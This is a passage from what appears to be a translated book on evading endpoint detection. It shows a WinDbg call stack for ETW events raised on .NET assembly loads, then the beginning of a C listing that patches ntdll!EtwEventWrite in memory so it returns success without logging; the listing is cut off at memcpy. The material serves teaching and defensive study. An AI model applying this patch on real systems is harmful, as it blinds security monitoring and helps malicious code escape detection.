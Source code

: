 ```
 0:000> **k**
  # RetAddr                Call Site
❶ 00 ntdll!EtwEventWrite
  01 clr!CoTemplate_xxxqzh+0xd5
  02 clr!ETW::LoaderLog::SendAssemblyEvent+0x1cd
❷ 03 clr!ETW::LoaderLog::ModuleLoad+0x155
  04 clr!DomainAssembly::DeliverSyncEvents+0x29
  05 clr!DomainFile::DoIncrementalLoad+0xd9
  06 clr!AppDomain::TryIncrementalLoad+0x135
  07 clr!AppDomain::LoadDomainFile+0x149
  08 clr!AppDomain::LoadDomainAssemblyInternal+0x23e
  09 clr!AppDomain::LoadDomainAssembly+0xd9
  0a clr!AssemblyNative::GetPostPolicyAssembly+0x4dd
  0b clr!AssemblyNative::LoadFromBuffer+0x702
  0c clr!AssemblyNative::LoadImage+0x1ef
❸ 0d mscorlib_ni!System.AppDomain.Load(Byte[])$ 60007DB+0x3b
  0e mscorlib_ni!DomainNeutralILStubClass.IL_STUB_CLRtoCOM(Byte[])
  0f clr!COMToCLRDispatchHelper+0x39
  10 clr!COMToCLRWorker+0x1b4
  11 clr!GenericComCallStub+0x57
  12 0x00000209`24af19a6
  13 0x00000209`243a0020
  14 0x00000209`24a7f390
  15 0x000000c2`29fcf950
```

Listing 8-24：一个简略的调用堆栈，显示在公共语言运行时中生成 ETW 事件

从下往上阅读，我们可以看到事件源自 <samp class="SANS_TheSansMonoCd_W5Regular_11">System.AppDomain.Load()</samp>，这是负责将程序集加载到当前应用程序域中的函数 ❸。一连串内部调用最终进入 <samp class="SANS_TheSansMonoCd_W5Regular_11">ETW::Loaderlog</samp> 类 ❷，该类最终调用 <samp class="SANS_TheSansMonoCd_W5Regular_11">ntdll!EtwEventWrite()</samp> ❶。

尽管微软并不希望开发人员直接调用此函数，但该实践是有文档记录的。此函数预计会返回一个 Win32 错误代码。因此，如果我们可以手动将 EAX 寄存器中的值（它作为 Windows 上的返回值）设置为 <samp class="SANS_TheSansMonoCd_W5Regular_11">0</samp>（表示 <samp class="SANS_TheSansMonoCd_W5Regular_11">ERROR_SUCCESS</samp>），函数应该会立即返回，表现得总是成功完成，而不会生成事件。

修补此函数是一个相对简单的四步过程。我们在 Listing 8-25 中深入了解这一过程。

```
#define WIN32_LEAN_AND_MEAN
#include <Windows.h>

void PatchedAssemblyLoader()
{
    PVOID pfnEtwEventWrite = NULL;
    DWORD dwOldProtection = 0;

 ❶ pfnEtwEventWrite = GetProcAddress(
      LoadLibraryW(L"ntdll"),
      "EtwEventWrite"
    );

    if (!pfnEtwEventWrite)
    {
        return;
    }

 ❷ VirtualProtect(
      pfnEtwEventWrite,
      3,
      PAGE_READWRITE,
      &dwOldProtection
      );

 ❸ memcpy(
```